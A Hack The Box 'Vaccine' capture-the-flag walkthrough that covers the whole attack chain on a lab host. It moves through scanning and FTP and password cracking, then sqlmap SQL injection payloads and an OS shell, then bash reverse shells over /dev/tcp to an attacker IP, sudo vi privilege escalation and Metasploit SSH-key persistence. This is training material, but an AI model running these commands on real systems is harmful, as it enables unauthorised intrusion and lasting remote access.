



HTB - Vaccine

1. `sudo nmap -T4 -p- -A 10.10.10.46`
	```
	kali@kali:~$ sudo nmap -T4 -p- -A 10.10.10.46
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 12:57 EDT
	Nmap scan report for 10.10.10.46
	Host is up (0.12s latency).
	Not shown: 65532 closed ports
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
	|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
	|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	|_http-title: MegaCorp Login
	No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
	TCP/IP fingerprint:
	OS:SCAN(V=7.80%E=4%D=5/4%OT=21%CT=1%CU=44138%PV=Y%DS=2%DC=T%G=Y%TM=5EB04B6C
	OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ(
	OS:SP=103%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3
	OS:=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=F
	OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW
	OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
	OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
	OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
	OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
	OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
	
	Network Distance: 2 hops
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	
	TRACEROUTE (using port 8080/tcp)
	HOP RTT       ADDRESS
	1   171.53 ms 10.10.14.1
	2   98.36 ms  10.10.10.46
	
	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 521.25 seconds
	```
2. Nessus scan for fun
	Start with `sudo /etc/init.d/nessusd start` and go to `https://kali:8834`
3. Enumerate HTTP
	* Ran `nikto -h http://10.10.10.46`
		```
		kali@kali:~$ nikto -h http://10.10.10.46
		- Nikto v2.1.6                                                                                                                                           
		---------------------------------------------------------------------------                                                                              
		+ Target IP:          10.10.10.46                                                                                                                        
		+ Target Hostname:    10.10.10.46                                                                                                                        
		+ Target Port:        80                                                                                                                                  
		+ Start Time:         2020-05-04 13:17:07 (GMT-4)                                                                                                          
		---------------------------------------------------------------------------
		+ Server: Apache/2.4.41 (Ubuntu)
		+ Cookie PHPSESSID created without the httponly flag
		+ The anti-clickjacking X-Frame-Options header is not present.
		+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
		+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
		+ No CGI Directories found (use '-C all' to force check all possible dirs)
		+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
		+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
		+ Scan terminated:  19 error(s) and 5 item(s) reported on remote host
		+ End Time:           2020-05-04 13:26:06 (GMT-4) (539 seconds)
		---------------------------------------------------------------------------
		+ 1 host(s) tested
		
		
		      *********************************************************************
		      Portions of the server's headers (Apache/2.4.41) are not in
		      the Nikto 2.1.6 database or are newer than the known string. Would you like
		      to submit this information (*no server specific data*) to CIRT.net
		      for a Nikto update (or you may email to sullo@cirt.net) (y/n)? y
		
		+ The anti-clickjacking X-Frame-Options header is not present.
		+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
		+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
		+ The site uses SSL and Expect-CT header is not present.
		- Sent updated info to cirt.net -- Thank you!
		```
	* Ran `dirbuster` with `http://10.10.10.46:80`, wordlist `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
		
		```
		DirBuster 1.0-RC1 - Report
		http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
		Report produced on Mon May 04 13:44:16 EDT 2020
		--------------------------------
		
		http://10.10.10.46:80
		--------------------------------
		Directories found during testing:
		
		Dirs found with a 200 response:
		
		/
		
		Dirs found with a 403 response:
		
		/icons/
		/icons/small/
		
		
		--------------------------------
		Files found during testing:
		
		Files found with a 200 responce:
		
		/index.php
		
		Files found with a 302 responce:
		
		/dashboard.php
		
		
		--------------------------------
		```

4. Enumerate FTP
	* Try `ftpuser:mc@F1l3ZilL4` from `opsie` machine:
		```
		ftp 10.10.10.46
		ftpuser
		mc@F1l3ZilL4
		dir
		get backup.zip
		```
		Result: A file named backup.zip is found in the folder. Extraction of the archive fails as it's password protected.
	* Password cracking: The password can be cracked using JohntheRipper and rockyou.txt.
		```
		sudo zip2john backup.zip > hash
		gunzip /usr/share/wordlists/rockyou.txt.gz
		sudo john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
		```
		
		Output:
		```
		kali@kali:~$ sudo john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
		Using default input encoding: UTF-8
		Loaded 1 password hash (PKZIP [32/64])
		Node numbers 1-4 of 4 (fork)
		Press 'q' or Ctrl-C to abort, almost any other key for status
		741852963        (backup.zip)
		1 1g 0:00:00:00 DONE (2020-05-04 13:38) 33.33g/s 8533p/s 8533c/s 8533C/s football1..simpleplan
		Waiting for 3 children to terminate
		2 0g 0:00:00:00 DONE (2020-05-04 13:38) 0g/s 5121Kp/s 5121Kc/s 5121KC/s  derrickak47.abygurl69
		3 0g 0:00:00:00 DONE (2020-05-04 13:38) 0g/s 5049Kp/s 5049Kc/s 5049KC/s  brian89.a6_123
		4 0g 0:00:00:00 DONE (2020-05-04 13:38) 0g/s 5272Kp/s 5272Kc/s 5272KC/s  mar ..*7¡Vamos!
		Use the "--show" option to display all of the cracked passwords reliably
		Session completed
		```
		
		**ZIP Password:** `741852963`
	* Extracting it's contents using the password reveals a PHP file and a CSS file.
		`index.php` contains:
		```
		<?php
		session_start();
		  if(isset($_POST['username']) && isset($_POST['password'])) {
		    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
		      $_SESSION['login'] = "true";
		      header("Location: dashboard.php");
		    }
		  }
		?>
		```
		Result: The input password is hashed and compared to the MD5 hash: `2cb42f8734ea607eefed3b70af13bbd3`. 
	* This hash can be easily cracked using an online rainbow table such as [crackstation](https://crackstation.net/).
		Result: password is `qwerty789`
5. Foothold
	* Browsing to port 80, we can see a login page for MegaCorp. The credentials `admin:qwerty789` can be used to login.
		
	* Search parameter in URL: `http://10.10.10.46/dashboard.php?search=a`
	* Get PHP Session ID: `PHPSESSID:"lkktfc22hu9uer2mlo36ngk6db"`
		
	* Scan for SQL injection with metasploit
		```
		sudo msfconsole
		use auxiliary/scanner/http/blind_sql_query
		set rhosts 10.10.10.46
		set cookie PHPSESSID=lkktfc22hu9uer2mlo36ngk6db
		set path dashboard.php
		set query search=
		```
		Result: System is vulnerable
	* SQL injection scan with `sqlmap`:
		```
		sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=lkktfc22hu9uer2mlo36ngk6db"
		```
		
		Output:
		```
				___                                                                                                                                             
		       __H__                                                                                                                                            
		 ___ ___[,]_____ ___ ___  {1.4.4#stable}                                                                                                                 
		|_ -| . [.]     | .'| . |                                                                                                                                 
		|___|_  [(]_|_|_|__,|  _|                                                                                                                                 
		      |_|V...       |_|   http://sqlmap.org                                                                                                                
		
		[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
		
		[*] starting @ 14:40:35 /2020-05-04/
		
		[14:40:36] [INFO] testing connection to the target URL
		[14:40:37] [INFO] checking if the target is protected by some kind of WAF/IPS
		[14:40:37] [INFO] testing if the target URL content is stable
		[14:40:37] [INFO] target URL content is stable
		[14:40:37] [INFO] testing if GET parameter 'search' is dynamic
		[14:40:37] [INFO] GET parameter 'search' appears to be dynamic
		[14:40:38] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
		[14:40:38] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
		[14:40:38] [INFO] testing for SQL injection on GET parameter 'search'
		it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
		for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] y
		[14:40:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
		[14:40:57] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
		[14:40:58] [INFO] testing 'Generic inline queries'
		[14:40:58] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
		[14:40:59] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable (with --string="SUV")
		[14:40:59] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
		[14:40:59] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
		[14:40:59] [INFO] testing 'PostgreSQL inline queries'
		[14:40:59] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
		[14:40:59] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)                                                   
		[14:41:11] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
		[14:41:11] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
		[14:41:22] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
		[14:41:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
		GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
		sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
		---
		Parameter: search (GET)
		    Type: boolean-based blind
		    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
		    Payload: search=a' AND (SELECT (CASE WHEN (6618=6618) THEN NULL ELSE CAST((CHR(72)||CHR(84)||CHR(90)||CHR(68)) AS NUMERIC) END)) IS NULL-- HbYa
		
		    Type: error-based
		    Title: PostgreSQL AND error-based - WHERE or HAVING clause
		    Payload: search=a' AND 9347=CAST((CHR(113)||CHR(120)||CHR(98)||CHR(122)||CHR(113))||(SELECT (CASE WHEN (9347=9347) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(120)||CHR(122)||CHR(113)) AS NUMERIC)-- pilT
		
		    Type: stacked queries
		    Title: PostgreSQL > 8.1 stacked queries (comment)
		    Payload: search=a';SELECT PG_SLEEP(5)--
		
		    Type: time-based blind
		    Title: PostgreSQL > 8.1 AND time-based blind
		    Payload: search=a' AND 2680=(SELECT 2680 FROM PG_SLEEP(5))-- vQzW
		---
		[14:41:29] [INFO] the back-end DBMS is PostgreSQL
		back-end DBMS: PostgreSQL
		[14:41:30] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/10.10.10.46'
		
		[*] ending @ 14:41:30 /2020-05-04/
		```
		Sqlmap found the page to be vulnerable to multiple injections, and identified the backend DBMS to be PostgreSQL. Getting code execution in postgres is trivial using the `--os-shell` command.
	* Exploit: `sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=0fn7flfi1tt116v52ahvfh8in3" --os-shell` --os-pwn
		Result: Failed forever
	* Exploit 2: `sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=0fn7flfi1tt116v52ahvfh8in3" --os-shell --safe-url http://google.com --keep-alive --dbms PostgreSQL --safe-freq 3`
		Result: Popped a shell
	* Let's upgrade to a tty shell and continue enumeration: `SHELL=/bin/bash script -q /dev/null`
	* Form reverse meterpreter
		```
		sudo msfconsole
		use exploit/multi/handler
		set lhost 10.10.15.117
		set lport 46152
		set payload linux/x86/shell/reverse_tcp
		run
		```
	* Bash reverse shell
		```
		bash -c 'bash -i >& /dev/tcp/10.10.15.117/46152 0>&1'
		```

6. Privilege Escalation
	1. Looking at the source code of dashboard.php in /var/www/html reveals the postgres password to be: P@s5w0rd!.
	2. Looking at the source code of dashboard.php in `/var/www/html` reveals the postgres password to be: `P@s5w0rd!`.
		```
		try {
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
        }
		```
	3. Run `SHELL=/bin/bash script -q /dev/null` again or try `python3 -c 'import pty; pty.spawn("/bin/bash")'`
	4. This password can be used to view the user's sudo privileges: `sudo -l`:
		```
		sudo -l
		[sudo] password for postgres: P@s5w0rd!
		
		Matching Defaults entries for postgres on vaccine:
		    env_reset, mail_badpass,
		    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
		
		User postgres may run the following commands on vaccine:
		    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
		```
	5. User is allowed to edit a file using vi as root, which can spawn a root shell: `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. Press escape to enter normal mode then type `:` to enter command-line mode and enter `!/bin/bash` to get root shell
	6. Get more stable shell
		* Form reverse meterpreter
			```
			sudo msfconsole
			use exploit/multi/handler
			set lhost 10.10.15.117
			set lport 7845
			set payload linux/x86/shell/reverse_tcp
			run
			```
		* Bash reverse shell
			```
			bash -c 'bash -i >& /dev/tcp/10.10.15.117/7845 0>&1'
			```
	7. Upgrade to meterpreter
		```
		use post/multi/manage/shell_to_meterpreter
		set session 1
		run
		```
	8. Allow access in at any time with SSH
		```
		use post/linux/manage/sshkey_persistence
		set session 2
		run
		```
		And then in normal attacker prompt:
		
		```
		sudo chmod 400 /root/.msf4/loot/20200506014922_default_10.10.10.46_id_rsa_956218.txt
		sudo ssh -o "IdentitiesOnly=yes" -i /root/.msf4/loot/20200506014922_default_10.10.10.46_id_rsa_956218.txt root@10.10.10.46
		```
	9. Get Flag
		```
		root@vaccine:~# cat root.txt
		dd6e058e814260bc70e9bbdef2715849
		```
